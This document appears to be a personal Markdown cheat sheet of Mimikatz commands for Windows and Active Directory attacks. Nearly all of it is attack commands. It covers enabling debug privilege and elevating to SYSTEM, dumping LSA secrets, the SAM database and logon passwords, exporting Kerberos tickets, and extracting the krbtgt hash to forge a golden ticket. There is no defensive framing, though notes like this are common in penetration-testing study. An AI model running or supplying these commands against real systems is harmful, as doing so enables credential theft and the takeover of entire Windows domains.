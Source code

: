 # Mimikatz

```c
privilege::debugv # enables the _SeDebugPrivilge_ access right
token::elevate # elevate the security token Administrator -> SYSTEM
lsadump::lsa /patch
lsadump::sam
sekurlsa::logonPasswords
```

### lsadumping

```c
privilege::debug
lsadump::lsa /patch
lsadump::sam # Dump SAM database
```

### Kerberos Tickets
```c
kerberos::list /export
```

### Golden Ticket Attacks
Used in [[Attacking-Kerberos]] see the detailed mechanics of Kerberos  [[Active-Directory-Kerberos-Defined]]
```c
privilege::debug
lsadump::lsa /inject /name:krbtgt
```

Provide values for: `kerberos::golden /user: /domain: /sid: /krbtgt: /id`,
like: `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-SID /krbtgt:HASH /id:ID`,then  
open command prompt with elevated privileges `misc::cmd`.

